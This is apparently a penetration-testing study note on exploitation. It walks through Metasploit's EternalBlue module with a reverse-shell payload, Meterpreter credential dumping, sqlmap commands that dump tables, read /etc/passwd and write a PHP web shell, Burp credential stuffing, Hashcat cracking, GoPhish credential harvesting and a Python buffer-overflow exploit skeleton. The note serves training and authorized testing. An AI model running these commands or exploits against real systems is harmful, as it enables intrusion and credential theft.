

# 💥 Exploitation Techniques

> [!abstract] TL;DR
> Exploitation converts identified vulnerabilities into actionable access. Metasploit Framework provides a structured exploit database with search/use/set/run workflow; staged payloads (e.g., `windows/meterpreter/reverse_tcp`) download shellcode in stages (smaller initial stager), while stageless payloads (`windows/meterpreter_reverse_tcp`) embed everything in one binary. searchsploit queries the Exploit-DB offline archive. Web exploitation uses Burp Suite Proxy/Repeater/Intruder for manual testing, sqlmap for automated SQL injection, and XSStrike for XSS. Password attacks: Hashcat (GPU-based) for offline hash cracking with -m mode flags, John the Ripper for cross-platform. GoPhish automates phishing campaigns. All techniques map to MITRE ATT&CK TA0001/TA0002.

---

## Intuition — Analogy First

Exploitation is the moment of transition from reconnaissance to control. Think of it as a locksmith using their knowledge of a specific lock model's weakness: they don't brute-force every key combination, they exploit the specific mechanical flaw to open it in seconds. Metasploit is a locksmith's tool bag — thousands of tools (exploits) organised by target system and vulnerability type.

The key insight is that exploitation is never about "hacking" in the generic sense: it's about applying a specific known technique to a specific identified vulnerability in a specific version of software. Recon finds the lock brand and model; exploitation applies the right tool.

---

## How It Works



---

## Key Concepts / Details

### Metasploit Framework

Metasploit is the most widely-used exploitation framework:

```bash
# Start Metasploit
msfconsole

# Search for exploits
msf6 > search ms17-010         # EternalBlue
msf6 > search type:exploit platform:windows CVE:2021-34527  # PrintNightmare
msf6 > search apache struts 2  # Apache Struts exploits

# Use an exploit module
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(ms17_010_eternalblue) > info
msf6 exploit(ms17_010_eternalblue) > show options

# Set required options
msf6 exploit(ms17_010_eternalblue) > set RHOSTS 192.168.1.100
msf6 exploit(ms17_010_eternalblue) > set LHOST 192.168.1.50  # attacker IP
msf6 exploit(ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp

# Run the exploit
msf6 exploit(ms17_010_eternalblue) > run
# [*] Meterpreter session 1 opened
```

**Staged vs Stageless Payloads**:

| Feature | Staged (`windows/meterpreter/reverse_tcp`) | Stageless (`windows/meterpreter_reverse_tcp`) |
|---------|--------------------------------------------|--------------------------------------------|
| Initial payload size | Small (~200 bytes stager) | Large (complete payload embedded) |
| Delivery | Downloads stage2 from Metasploit handler | Self-contained |
| Detection risk | Higher (two connections: stage1 + stage2) | Lower (single connection) |
| Use case | Size-constrained delivery (URL, PDF) | When firewall blocks stage2 callback |

**Meterpreter post-exploitation**:
```bash
meterpreter > sysinfo              # System information
meterpreter > getuid               # Current user
meterpreter > ps                   # Running processes
meterpreter > migrate 1234         # Migrate to another process (stability/evasion)
meterpreter > hashdump             # Dump Windows SAM hashes
meterpreter > load kiwi            # Load Mimikatz
meterpreter > creds_all            # Dump all credentials
meterpreter > shell                # Drop to cmd.exe shell
meterpreter > upload /local/file /remote/path  # File transfer
meterpreter > download /remote/file /local/path
meterpreter > portfwd add -l 3389 -p 3389 -r 10.10.10.100  # Port forward
meterpreter > run post/multi/recon/local_exploit_suggester  # PrivEsc suggestions
```

### searchsploit — Exploit-DB Offline Search

```bash
# Search for exploits
searchsploit apache struts 2.5
searchsploit -t "Remote Code Execution" "Windows 10"

# Copy exploit to working directory
searchsploit -m exploits/linux/remote/47441.py

# Update Exploit-DB database
searchsploit -u

# Show exploit details
searchsploit -x 47441
```

### Burp Suite — Web Application Testing

Burp Suite Community/Pro is the standard web app pentest platform:

```
Proxy → Intercept all browser traffic, modify requests on-the-fly
Repeater → Manually replay and modify individual requests
Intruder → Automated payload delivery (fuzzing, brute force)
Scanner (Pro) → Automated vulnerability scanning
Decoder → Base64/URL/HTML encode/decode
Comparer → Diff two requests/responses
```

**Burp Intruder attack types**:
- **Sniper**: Single payload set, iterates through one insertion point
- **Battering Ram**: Same payload in all insertion points simultaneously
- **Pitchfork**: Multiple payload sets, one per insertion point, iterating in parallel
- **Cluster Bomb**: Multiple payload sets, ALL combinations (for credential stuffing)

```
# Credential stuffing with Cluster Bomb:
POST /login
username=§admin§&password=§password123§
# Payload Set 1: username list (admin, john, mary)
# Payload Set 2: password list (Password1, Summer2024!, Welcome1)
# Cluster Bomb tries: 3 × 3 = 9 combinations
```

### sqlmap — Automated SQL Injection

```bash
# Basic detection
sqlmap -u "https://target.com/page?id=1" --level=3 --risk=2

# Detect and extract databases
sqlmap -u "https://target.com/page?id=1" --dbs

# Dump specific table
sqlmap -u "https://target.com/page?id=1" -D webapp -T users --dump

# POST request
sqlmap -u "https://target.com/login" \
  --data="username=admin&password=test&csrf_token=abc" \
  --csrf-token=csrf_token --csrf-url="https://target.com/login"

# Tor proxy for anonymity
sqlmap -u "https://target.com/page?id=1" --tor --tor-type=SOCKS5

# File read/write (if DBA privileges)
sqlmap -u "..." --file-read="/etc/passwd"
sqlmap -u "..." --file-write="shell.php" --file-dest="/var/www/html/shell.php"

# OS shell (MSSQL with xp_cmdshell)
sqlmap -u "..." --os-shell
```

### Hashcat — GPU-Accelerated Password Cracking

```bash
# Mode examples
# -m 0 = MD5, -m 100 = SHA1, -m 1000 = NTLM, -m 1800 = sha512crypt (Linux)
# -m 3200 = bcrypt, -m 13722 = VeraCrypt, -m 22000 = WPA-PMKID

# Dictionary attack (-a 0)
hashcat -m 1000 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

# Rule-based attack (adds common transformations: capitalise, add numbers)
hashcat -m 1000 -a 0 hashes.txt rockyou.txt -r rules/best64.rule

# Mask attack (brute force pattern: ?u = uppercase, ?l = lower, ?d = digit)
hashcat -m 1000 -a 3 hashes.txt '?u?l?l?l?l?d?d?d'  # 8-char pattern

# Combination attack (wordlist1 + wordlist2)
hashcat -m 1000 -a 1 hashes.txt wordlist1.txt wordlist2.txt

# Show cracked passwords
hashcat -m 1000 hashes.txt --show
```

GPU performance (RTX 4090):
- NTLM: ~147 billion hashes/second
- bcrypt ($2b$12): ~29,000 hashes/second
- Argon2id: ~500 hashes/second

### GoPhish — Phishing Campaign Automation

```
GoPhish UI (default: https://127.0.0.1:3333) provides:

1. Email Templates: HTML email with tracking pixel, credential harvesting link
2. Landing Pages: Clone of target's login page (SSO, O365, VPN portal)
3. Sending Profiles: SMTP relay configuration
4. Campaigns: Launch + track open rates, click rates, submitted credentials
5. Reports: Timeline, per-user statistics for the pentest report
```

ATT&CK mapping: T1566.001 (Spear-phishing Attachment), T1566.002 (Spear-phishing Link).

### Buffer Overflow — Classical Memory Corruption

Exploiting stack buffer overflows (pre-ASLR/DEP systems, IoT):

```python
#!/usr/bin/env python3
# Basic stack buffer overflow exploit structure
import socket

# Step 1: Find crash offset (EIP overwrite position)
# Use cyclic pattern: msf-pattern_create -l 1000
# Run in debugger, note EIP value
# msf-pattern_offset -l 1000 -q <EIP value> → offset = 524

offset = 524
jmp_esp = b"\xAF\x11\x50\x62"  # JMP ESP gadget address (no bad chars)
nop_sled = b"\x90" * 16
shellcode = b"\x31\xc0\x50\x68..."  # msfvenom-generated shellcode

payload = b"A" * offset + jmp_esp + nop_sled + shellcode
payload += b"C" * (2000 - len(payload))  # Padding

s = socket.socket()
s.connect(("target.com", 9999))
s.send(payload)
```

Modern mitigations: ASLR (randomises addresses), DEP/NX (non-executable stack), Stack Canaries (detect overflow), CFI (Control Flow Integrity). Modern exploitation requires bypassing all of these.

---

## Real-World Notes

- EternalBlue (MS17-010, CVE-2017-0144) was leaked from NSA toolset, used in WannaCry and NotPetya — unpatched Windows XP/7/Server 2008 remain common in industrial environments
- Metasploit's Pro version adds automated chaining, phishing, and reporting; Community is fully functional for most pentest scenarios
- sqlmap's `--level 5 --risk 3` enables all tests including time-based blind — very loud; use incrementally
- Burp Suite Collaborator (Pro) enables out-of-band (OOB) detection for blind SSRF, blind SQLi, and blind XSS

---

## Common Pitfalls

1. **Launching exploits without reading the options** — `show options` is mandatory; missing LHOST/LPORT causes immediate failure
2. **Using staged payloads when firewall blocks callback** — If stage2 download fails, switch to stageless payload
3. **sqlmap `--level=5 --risk=3` by default** — Extremely loud; starts at level=1 risk=1 and escalate only if needed
4. **Not capturing proof screenshots** — Every exploitation step needs timestamped screenshots for the report; do this in real-time, not from memory

---

## Related Concepts

- [[Reconnaissance_and_OSINT|← Recon & OSINT]] — Recon identifies exploitation targets
- [[Privilege_Escalation|→ Privilege Escalation]] — Post-exploitation first step
- [[SQL_and_NoSQL_Injection|← SQL Injection]] — Web exploitation detail
- [[_MOC_Penetration_Testing|↑ Penetration Testing MOC]]

---

## Review Questions

1. Metasploit's `ms17_010_eternalblue` module against a Windows Server 2019 target fails with "connection refused on port 445." List your troubleshooting steps in order, including both technical and scope considerations.
2. You have a SQL injection vulnerability on a PostgreSQL backend. sqlmap's `--os-shell` fails. What PostgreSQL-specific limitations prevent OS command execution, and what alternative data extraction paths remain?
3. A phishing email with a GoPhish landing page cloning the target's O365 login achieves a 35% click rate and 12% credential submission rate. What does this tell you about the security culture, and how do you present this in the executive summary?

---

## Sources

- Metasploit Documentation: https://docs.metasploit.com/
- Exploit-DB: https://www.exploit-db.com/
- Hashcat Reference: https://hashcat.net/wiki/doku.php?id=hashcat

#Cybersecurity #PenetrationTesting #Exploitation #Metasploit #BurpSuite #Hashcat #sqlmap
